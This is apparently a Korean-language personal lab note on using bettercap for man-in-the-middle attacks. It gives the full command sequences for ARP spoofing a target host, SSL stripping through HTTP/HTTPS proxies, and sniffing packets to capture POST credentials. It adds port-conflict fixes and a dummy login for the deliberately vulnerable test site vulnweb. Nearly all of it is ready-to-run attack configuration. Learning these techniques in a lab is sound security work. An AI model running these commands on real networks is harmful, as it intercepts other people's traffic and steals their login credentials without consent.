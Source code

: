 

# 1. 현재 게이트웨이  mac 주소
arp -a

# 2.  bettercap 

 > Go로 작성 



set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 대상IP
set arp.spoof.fullduplex true
arp.spoof on
http.proxy on
net.sniff on

bettercap -T [local IP] --proxy-https -P POST -O [filename]


# 3. 

net.probe on
set http.proxy.sslstrip true
set https.proxy.sslstrip true
http.proxy on
https.proxy on
set arp.spoof.targets 192.168.1.199
set arp.spoof.fullduplex true
set net.sniff.verbose false

net.sniff on
arp.spoof on 


- 옛날
bettercap -T [local IP] --proxy-https -P POST -O [filename]
bettercap -T 192.168.1.199 --proxy-https -P POST


- url 입력 시 https를 빼고 도메인명만 입력  
- 다음 시도 -> 리다이렉트 포트 

**오류**

- 이미 사용중인 포트 
```
netstat -tulpn 

pid 확인 후 해당 프로세스 kill 

// 포트 변경하고 싶을때 bettercap 에서 
set http.proxy.port 8011
set https.proxy.port 8011

```


# 옵션 

- net.sniff
```
net.sniff.verbose

true: 모든 패킷 표시
false: 애플리케이션 계층에서 구문 분석된 패킷만표시 
```


- vulnweb id pw
```
test
thisisdummypassword
```


> reference
https://www.bettercap.org/legacy/index.html#http
https://www.bettercap.org/modules/ethernet/proxies/https.proxy/

https://blog.hackerassociate.com/how-to-get-user-credentials-using-bettercap/

http://testphp.vulnweb.com/


https://www.reddit.com/r/Kalilinux/comments/15axv07/bettercap_arp_spoofing_issue/?rdt=51193

https://guleum-zone.tistory.com/82
